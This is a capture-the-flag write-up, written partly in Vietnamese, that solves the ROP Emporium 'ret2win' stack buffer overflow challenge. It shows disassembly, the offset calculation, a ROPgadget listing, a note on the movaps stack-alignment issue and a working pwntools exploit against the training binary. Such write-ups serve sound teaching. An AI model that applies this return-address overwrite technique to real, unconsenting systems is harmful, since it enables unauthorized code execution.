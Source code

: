 # ret2win - challenge 1

[binary file and my exploit code](https://github.com/Hjn4Pwn/Pwn/tree/main/ROP/chall1_ret2win)

```shell
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/ROP/Chall1$ file ret2win
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=19abc0b3bb228157af55b8e16af7316d54ab0597, not stripped

```

### Main func:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(_bss_start, 0LL, 2, 0LL);
  puts("ret2win by ROP Emporium");
  puts("x86_64\n");
  pwnme();
  puts("\nExiting");
  return 0;
}
```

### pwnme func: 

```c
int pwnme()
{
  char s[32]; // [rsp+0h] [rbp-20h] BYREF

  memset(s, 0, sizeof(s));
  puts("For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!");
  puts("What could possibly go wrong?");
  puts("You there, may I have your input please? And don't worry about null bytes, we're using read()!\n");
  printf("> ");
  read(0, s, 0x38uLL);
  return puts("Thank you!");
}

```
Trong đấy vẫn còn 1 hàm nữa, và có lẽ đây là key for win:

```c
int ret2win()
{
  puts("Well done! Here's your flag:");
  return system("/bin/cat flag.txt");
}

```

Đúng như cái tên nó và vì có lẽ đây là chall 1 trong chuỗi ***ROP Emporium*** nên khá dễ để **ret 2 win**

### Debug:

```shell
pwndbg> checksec
[*] '/mnt/d/pwn_myself/ROP/Chall1/ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

```python
pwndbg> disass pwnme
Dump of assembler code for function pwnme:
   0x00000000004006e8 <+0>:     push   rbp
   0x00000000004006e9 <+1>:     mov    rbp,rsp
   0x00000000004006ec <+4>:     sub    rsp,0x20
   0x00000000004006f0 <+8>:     lea    rax,[rbp-0x20]
   0x00000000004006f4 <+12>:    mov    edx,0x20
   0x00000000004006f9 <+17>:    mov    esi,0x0
   0x00000000004006fe <+22>:    mov    rdi,rax
   0x0000000000400701 <+25>:    call   0x400580 <memset@plt>
   0x0000000000400706 <+30>:    mov    edi,0x400838
   0x000000000040070b <+35>:    call   0x400550 <puts@plt>
   0x0000000000400710 <+40>:    mov    edi,0x400898
   0x0000000000400715 <+45>:    call   0x400550 <puts@plt>
   0x000000000040071a <+50>:    mov    edi,0x4008b8
   0x000000000040071f <+55>:    call   0x400550 <puts@plt>
   0x0000000000400724 <+60>:    mov    edi,0x400918
   0x0000000000400729 <+65>:    mov    eax,0x0
   0x000000000040072e <+70>:    call   0x400570 <printf@plt>
   0x0000000000400733 <+75>:    lea    rax,[rbp-0x20]
   0x0000000000400737 <+79>:    mov    edx,0x38
   0x000000000040073c <+84>:    mov    rsi,rax
   0x000000000040073f <+87>:    mov    edi,0x0
   0x0000000000400744 <+92>:    call   0x400590 <read@plt>
   0x0000000000400749 <+97>:    mov    edi,0x40091b
   0x000000000040074e <+102>:   call   0x400550 <puts@plt>
   0x0000000000400753 <+107>:   nop
   0x0000000000400754 <+108>:   leave
   0x0000000000400755 <+109>:   ret
End of assembler dump.
```

Bây giờ ta sẽ đặt breakpoint tại  **call read** để xem địa chỉ ta nhập vào được lưu ở đâu, và tại  **ret** để xem cần ghi đè bao nhiêu bytes để tới được return address.

```python
pwndbg> disass ret2win
Dump of assembler code for function ret2win:
   0x0000000000400756 <+0>:     push   rbp
   0x0000000000400757 <+1>:     mov    rbp,rsp
   0x000000000040075a <+4>:     mov    edi,0x400926
   0x000000000040075f <+9>:     call   0x400550 <puts@plt>
   0x0000000000400764 <+14>:    mov    edi,0x400943
   0x0000000000400769 <+19>:    call   0x400560 <system@plt>
   0x000000000040076e <+24>:    nop
   0x000000000040076f <+25>:    pop    rbp
   0x0000000000400770 <+26>:    ret
End of assembler dump.
```

Lưu địa chỉ hàm *ret2win*

 ```python
 ──────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────────
 ► 0x400744 <pwnme+92>      call   read@plt                      <read@plt>
        fd: 0x0 (/dev/pts/0)
        buf: 0x7fffffffe0a0 ◂— 0x0
        nbytes: 0x38

   0x400749 <pwnme+97>      mov    edi, 0x40091b
   0x40074e <pwnme+102>     call   puts@plt                      <puts@plt>

   0x400753 <pwnme+107>     nop
   0x400754 <pwnme+108>     leave
   0x400755 <pwnme+109>     ret

   0x400756 <ret2win>       push   rbp
   0x400757 <ret2win+1>     mov    rbp, rsp
   0x40075a <ret2win+4>     mov    edi, 0x400926
   0x40075f <ret2win+9>     call   puts@plt                      <puts@plt>

   0x400764 <ret2win+14>    mov    edi, 0x400943
───────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────
00:0000│ rax rsi rsp 0x7fffffffe0a0 ◂— 0x0
... ↓                3 skipped
04:0020│ rbp         0x7fffffffe0c0 —▸ 0x7fffffffe0d0 ◂— 0x1
 
 ```

```python
   0x400754 <pwnme+108>    leave
 ► 0x400755 <pwnme+109>    ret                                  <0x4006d7; main+64>
    ↓
   0x4006d7 <main+64>      mov    edi, 0x400828
   0x4006dc <main+69>      call   puts@plt                      <puts@plt>

   0x4006e1 <main+74>      mov    eax, 0
   0x4006e6 <main+79>      pop    rbp
   0x4006e7 <main+80>      ret
───────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffe0c8 —▸ 0x4006d7 (main+64) ◂— mov edi, 0x400828
01:0008│ rbp 0x7fffffffe0d0 ◂— 0x1
```

```python
>>> str = 0x7fffffffe0a0
>>> ret = 0x7fffffffe0c8
>>> ret - str
40
```

Ta cần điền 40 bytes vào để ghi đè tới **ret** sau đó sẽ ghi đè **ret** thành địa chỉ hàm ret2win = **0x0000000000400756**

Tuy nhiên vì đây là kiến trúc 64-bit: 
> The MOVAPS issue
>
>> If you're segfaulting on a movaps instruction in buffered_vfprintf() or do_system() in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as printf() or system(). Some versions of GLIBC uses movaps instructions to move data onto the stack in certain functions. The 64 bit calling convention requires the stack to be 16-byte aligned before a call instruction but this is easily violated during ROP chain execution, causing all further calls from that function to be made with a misaligned stack. movaps triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra ret before returning into a function or return further into a function to skip a push instruction.

Do đó ta cần tìm địa chỉ lệnh **ret** với [ROPgadget](https://github.com/JonathanSalwan/ROPgadget)

```python
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/ROP/Chall1$ ROPgadget --binary ret2win | grep "ret"
0x00000000004005df : add bl, dh ; ret
0x00000000004007ed : add byte ptr [rax], al ; add bl, dh ; ret
0x00000000004007eb : add byte ptr [rax], al ; add byte ptr [rax], al ; add bl, dh ; ret
0x00000000004006e2 : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x0000000000400616 : add byte ptr [rax], al ; pop rbp ; ret
0x0000000000400615 : add byte ptr [rax], r8b ; pop rbp ; ret
0x0000000000400677 : add byte ptr [rcx], al ; pop rbp ; ret
0x000000000040053b : add esp, 8 ; ret
0x000000000040053a : add rsp, 8 ; ret
0x00000000004007cc : fmul qword ptr [rax - 0x7d] ; ret
0x0000000000400754 : leave ; ret
0x0000000000400672 : mov byte ptr [rip + 0x2009e7], 1 ; pop rbp ; ret
0x00000000004006e1 : mov eax, 0 ; pop rbp ; ret
0x0000000000400753 : nop ; leave ; ret
0x000000000040076e : nop ; pop rbp ; ret
0x0000000000400613 : nop dword ptr [rax + rax] ; pop rbp ; ret
0x0000000000400655 : nop dword ptr [rax] ; pop rbp ; ret
0x0000000000400675 : or dword ptr [rax], esp ; add byte ptr [rcx], al ; pop rbp ; ret
0x00000000004007dc : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004007de : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004007e0 : pop r14 ; pop r15 ; ret
0x00000000004007e2 : pop r15 ; ret
0x00000000004007db : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004007df : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400618 : pop rbp ; ret
0x00000000004007e3 : pop rdi ; ret
0x00000000004007e1 : pop rsi ; pop r15 ; ret
0x00000000004007dd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040053e : ret
0x0000000000400542 : ret 0x200a
0x0000000000400535 : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x00000000004007f5 : sub esp, 8 ; add rsp, 8 ; ret
0x00000000004007f4 : sub rsp, 8 ; add rsp, 8 ; ret
```

ret address = **0x000000000040053e**

### Exploit:

```python
from pwn import *
r = process("./ret2win")

payload = b'A'*40 +p64(0x40053e)+ p64(0x400756)

r.sendline(payload)
r.interactive()

```

